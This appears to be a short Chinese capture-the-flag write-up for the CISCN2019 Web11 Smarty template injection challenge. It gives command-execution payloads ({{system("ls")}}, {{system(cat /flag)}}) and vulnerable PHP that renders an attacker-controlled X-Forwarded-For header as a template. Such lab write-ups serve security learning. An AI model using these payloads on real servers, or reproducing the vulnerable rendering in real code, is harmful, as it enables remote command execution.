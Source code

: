 这个可以直接执行命令：

```
{{system("ls")}}
{{system(cat /flag)}}
```



题目源代码如下：

```php
<?php
    require_once('header.php');
    require_once('./libs/Smarty.class.php');
    $smarty = new Smarty();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
    {
        $ip=$_SERVER['HTTP_CLIENT_IP'];
    }
    elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
        $ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
    }
    else
    {
        $ip=$_SERVER['REMOTE_ADDR'];
    }
    //$your_ip = $smarty->display("string:".$ip);
    echo "<div class=\"container panel1\">
                <div class=\"row\">
                <div class=\"col-md-4\">    
                </div>
            <div class=\"col-md-4\">
                <div class=\"jumbotron pan\">
                    <div class=\"form-group log\">
                        <label><h2>Your IP is : ";
    $smarty->display("string:".$ip);
    echo "            </h2></label>
                    </div>        
                </div>
            </div>
                <div class=\"col-md-4\">    
                </div>
                </div>
            </div>";
?>

```



#### [CISCN2019 华东南赛区]Web11

> Smarty模板注入

---
